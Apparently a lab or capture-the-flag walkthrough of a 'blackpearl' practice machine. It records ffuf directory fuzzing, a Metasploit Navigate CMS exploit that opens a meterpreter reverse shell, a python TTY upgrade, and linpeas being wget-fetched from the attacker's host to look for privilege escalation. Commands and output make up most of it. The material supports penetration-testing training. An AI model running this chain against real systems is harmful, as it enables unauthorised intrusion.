

Priority of etc/hosts file is more than DNS (i.e. Its primary present-day use is to bypass DNS resolution. A match found in the /etc/hosts file will be used before any DNS entry.
In fact, if the name searched (like localhost) is found in the file, no DNS resolution will be performed at all.)
https://unix.stackexchange.com/questions/421491/what-is-the-purpose-of-etc-hosts/421500#421500
┌──(root㉿kali)-[/home/kali]
└─# ffuf -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt:FUZZ -u http://blackpearl.tcm/FUZZ
/'___\ /'___\ /'___\
/\ \__/ /\ \__/ __ __ /\ \__/
\ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\
\ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/
\ \_\ \ \_\ \ \____/ \ \_\
\/_/ \/_/ \/___/ \/_/
v1.5.0 Kali Exclusive <3
________________________________________________
:: Method : GET
:: URL : http://blackpearl.tcm/FUZZ
:: Wordlist : FUZZ: /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
:: Follow redirects : false
:: Calibration : false
:: Timeout : 10
:: Threads : 40
:: Matcher : Response status: 200,204,301,302,307,401,403,405,500
________________________________________________
# Suite 300, San Francisco, California, 94105, USA. [Status: 200, Size: 86809, Words: 4215, Lines: 1040, Duration: 41ms]
[Status: 200, Size: 86809, Words: 4215, Lines: 1040, Duration: 43ms]
# Attribution-Share Alike 3.0 License. To view a copy of this [Status: 200, Size: 86809, Words: 4215, Lines: 1040, Duration: 41ms]
# [Status: 200, Size: 86809, Words: 4215, Lines: 1040, Duration: 72ms]
# [Status: 200, Size: 86808, Words: 4215, Lines: 1040, Duration: 74ms]
# directory-list-2.3-medium.txt [Status: 200, Size: 86808, Words: 4215, Lines: 1040, Duration: 79ms]
# on atleast 2 different hosts [Status: 200, Size: 86809, Words: 4215, Lines: 1040, Duration: 82ms]
# license, visit http://creativecommons.org/licenses/by-sa/3.0/ [Status: 200, Size: 86809, Words: 4215, Lines: 1040, Duration: 116ms]
# Copyright 2007 James Fisher [Status: 200, Size: 86809, Words: 4215, Lines: 1040, Duration: 125ms]
# [Status: 200, Size: 86809, Words: 4215, Lines: 1040, Duration: 130ms]
# or send a letter to Creative Commons, 171 Second Street, [Status: 200, Size: 86808, Words: 4215, Lines: 1040, Duration: 125ms]
# Priority ordered case sensative list, where entries were found [Status: 200, Size: 86809, Words: 4215, Lines: 1040, Duration: 72ms]
# [Status: 200, Size: 86809, Words: 4215, Lines: 1040, Duration: 58ms]
# This work is licensed under the Creative Commons [Status: 200, Size: 86808, Words: 4215, Lines: 1040, Duration: 118ms]
navigate [Status: 301, Size: 185, Words: 6, Lines: 8, Duration: 3ms]
[Status: 200, Size: 86809, Words: 4215, Lines: 1040, Duration: 17ms]
:: Progress: [220560/220560] :: Job [1/1] :: 4320 req/sec :: Duration: [0:00:58] :: Errors: 0 ::
Vola we are able to get a login page named navigatetcm.com
Browser : http://blackpearl.tcm/navigate/login.php

So the go to tool is GOOGLE where we will search the navigate cms exploit and were able to find these 2 website
https://www.rapid7.com/db/modules/exploit/multi/http/navigate_cms_rce/
https://www.exploit-db.com/exploits/45561
So will use the Msfconsole
msf6 > use exploit/multi/http/navigate_cms_rce
[*] No payload configured, defaulting to php/meterpreter/reverse_tcp
msf6 exploit(multi/http/navigate_cms_rce) >
msf6 exploit(multi/http/navigate_cms_rce) > set rhosts 192.168.205.134
rhosts => 192.168.205.134
msf6 exploit(multi/http/navigate_cms_rce) > set vhost blackpearl.tcm
vhost => blackpearl.tcm
As we can see that we got a meterpreter shell but we need tty shell
msf6 exploit(multi/http/navigate_cms_rce) > run
[*] Started reverse TCP handler on 192.168.205.128:4444
[+] Login bypass successful
[+] Upload successful
[*] Triggering payload...
[*] Sending stage (39927 bytes) to 192.168.205.134
[*] Meterpreter session 1 opened (192.168.205.128:4444 -> 192.168.205.134:35406) at 2022-12-15 11:16:35 +0530
whoami
meterpreter >shell
Will Google for the TTY shell and the quickest way to do is with python and luckily python is installed in the victim machine.
https://rcenetsec.com/shell-spawning/
Command : python -c 'import pty; pty.spawn("/bin/bash")'
meterpreter > shell
Process 803 created.
Channel 1 created.
whoami
www-data
which python
/usr/bin/python
python -c 'import pty; pty.spawn("/bin/bash")'
www-data@blackpearl:~/blackpearl.tcm/navigate$ whoami
whoami
www-data
www-data@blackpearl:~/blackpearl.tcm/navigate$ sudo -l
sudo -l
bash: sudo: command not found
www-data@blackpearl:~/blackpearl.tcm/navigate$
Now we have to check for privilege escalation using Linpeas
Kali Linux
┌──(root㉿kali)-[~]
└─# cd transfer
┌──(root㉿kali)-[~/transfer]
└─# ls
linpeas.sh pspy64 winpeas.exe Wise.exe
┌──(root㉿kali)-[~/transfer]
└─# python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
Bash Shell
www-data@blackpearl:~/blackpearl.tcm/navigate$ cd /tmp
cd /tmp
www-data@blackpearl:/tmp$ ls
ls
systemd-private-1fd66986dca54aa6a4394f0a226c17f4-systemd-timesyncd.service-ECr4S6
www-data@blackpearl:/tmp$ wget http://192.168.205.128/linpeas.sh linpeas.sh
wget http://192.168.205.128/linpeas.sh linpeas.sh
--2022-12-15 00:57:03-- http://192.168.205.128/linpeas.sh
Connecting to 192.168.205.128:80... connected.
HTTP request sent, awaiting response... 200 OK
Length: 807167 (788K) [text/x-sh]
Saving to: 'linpeas.sh'
linpeas.sh 100%[===================>] 788.25K --.-KB/s in 0.1s
2022-12-15 00:57:03 (5.58 MB/s) - 'linpeas.sh' saved [807167/807167]
--2022-12-15 00:57:03-- http://linpeas.sh/
Resolving linpeas.sh (linpeas.sh)... 172.67.148.155, 104.21.89.223, 2606:4700:3035::6815:59df, ...
Connecting to linpeas.sh (linpeas.sh)|172.67.148.155|:80... connected.
HTTP request sent, awaiting response... 301 Moved Permanently
Location: https://linpeas.sh/ [following]
--2022-12-15 00:57:05-- https://linpeas.sh/
Connecting to linpeas.sh (linpeas.sh)|172.67.148.155|:443... connected.
HTTP request sent, awaiting response... 200 OK
Length: unspecified [text/html]
Saving to: 'index.html'
index.html [ <=> ] 753.46K --.-KB/s in 0.1s
2022-12-15 00:57:06 (5.07 MB/s) - 'index.html' saved [771544]
FINISHED --2022-12-15 00:57:06--
Total wall clock time: 3.5s
Downloaded: 2 files, 1.5M in 0.3s (5.32 MB/s)
www-data@blackpearl:/tmp$ ls
ls
index.html
linpeas.sh
systemd-private-1fd66986dca54aa6a4394f0a226c17f4-systemd-timesyncd.service-ECr4S6
www-data@blackpearl:/tmp$ chmod +x linpeas.sh
chmod +x linpeas.sh
www-data@blackpearl:/tmp$ ./linpeas.sh